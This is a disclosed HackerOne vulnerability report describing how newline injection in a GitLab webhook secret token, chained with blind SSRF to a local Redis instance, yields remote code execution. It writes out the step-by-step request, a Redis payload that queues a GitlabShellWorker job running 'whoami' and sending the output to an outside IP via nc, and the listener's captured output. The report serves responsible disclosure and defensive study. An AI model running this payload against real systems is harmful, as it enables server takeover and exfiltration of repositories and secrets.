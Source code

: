 # Evaluating Ruby code by injecting Rescue job on the system_hook_push queue through web hook

## Report Details
- **Report ID**: 299473
- **URL**: https://hackerone.com/reports/299473
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-12-19T21:08:22.970Z
- **Disclosed**: 2018-04-27T02:21:14.315Z

## Reporter
- **Username**: jobert
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
The secret token field of a webhook is vulnerable to a new line injection, allowing an attacker to inject non-HTTP commands in a TCP stream. When a GitLab instance is configured with an external Redis instance, e.g. on `127.0.0.1:6379`, it may result in arbitrary code execution on a Sidekiq worker by abusing a blind Server-Side Request Forgery (SSRF) vulnerability in the webhook integration and the new line injection. One of my other reports regarding these SSRFs, #131190, is still open and has been for more than a year. However, because this is a service I haven't reported the SSRF in and chaining it with the new line injection increases the severity of the vulnerability, I decided to report it. To reproduce, start by signing in to the GitLab instance and creating a new project.

To reproduce the RCE, a Redis server has to be running on port 6379. Follow the GitLab documentation to set up the Redis server and reconfigure GitLab by running `gitlab-ctl reconfigure`. When that's done, continue to go to the Integrations section of the created project. Intercept your network traffic before continuing. Now, enter `http://127.0.0.1:6379/` as the webhook endpoint and `A` as the secret token. When the request is submitted, a request similar to the one below is submitted:

**Request**
```
POST /root/test/hooks HTTP/1.1
Host: gitlab-instance
...
----------1282688597
Content-Disposition: form-data; name="hook[url]"

http://127.0.0.1:6379/
----------1282688597
Content-Disposition: form-data; name="hook[token]"

A
...
```

In the request above I changed the body encoding to make it easier to inject the payload. Now, replace the `hook[token]` field with the payload below.

**Payload**
```
A
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|whoami | nc 192.241.233.143 80\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
```

Then, when the integration persisted, click the `Test` button next to the newly created integration. Here's what happens next: a `POST` request will be submitted to `127.0.0.1`, port `6379` (Redis). Redis is pretty easy on errors, so it'll simply ignore the first couple lines of the HTTP request. Then, a couple headers further down, it is including the `X-GitLab-Token` that is vulnerable to the new line injection. Here's the entire request that is posted:

**Injected request**
```
POST / HTTP/1.1
Content-Type: application/json
X-Gitlab-Event: Push Hook
X-Gitlab-Token: A
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|whoami | nc 192.241.233.143 80\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
Connection: close
Host: 192.241.233.143
Content-Length: 2495

{"object_kind":"push","ev<...>
```

When this is submitted to Redis, a new job will be shifted on the `system_hook_push` command. In order to evaluate Ruby code, I needed a Ruby class that'd implement the `perform` method that would allow me to execute a command or Ruby. The `GitlabShellWorker` was exactly what I was looking for:

**GitlabShellWorker**
```ruby
class GitlabShellWorker
  include ApplicationWorker
  include Gitlab::ShellAdapter

  def perform(action, *arg)
    gitlab_shell.__send__(action, *arg) # rubocop:disable GitlabSecurity/PublicSend
  end
end
```

As can be seen in the payload, the `GitlabShellWorker` is called with the arguments `class_eval` and the following Ruby code:

```
open('|whoami | nc 192.241.233.143 80').read
```

Because the Ruby is evaluated on a Sidekiq server, we need to exfiltrate the output of a command through `nc` or a similar tool. In this example, my server is listening on port 80 for connections. When the payload fires, it captures the output of the `whoami` command:

```
$ nc -l -n -vv -p 80
Listening on [0.0.0.0] (family 0, port 80)
Connection from [104.236.178.103] port 80 [tcp/*] accepted (family 2, sport 42874)
git
```

Besides the blind SSRF, the underlying vulnerability is the new line injection in the secret token. Fixing the new line injection seems mitigate the immediate risk for an RCE, but I'd encourage you to reprioritize the fix for the SSRF vulnerabilities in the services (reported by me previously). Let me know if you have any questions.

## Impact

An attacker can execute arbitrary system commands on the server, which exposes access to all git repositories, database, and potentially other secrets that may be used to escalate this further.

## Attachments
No attachments
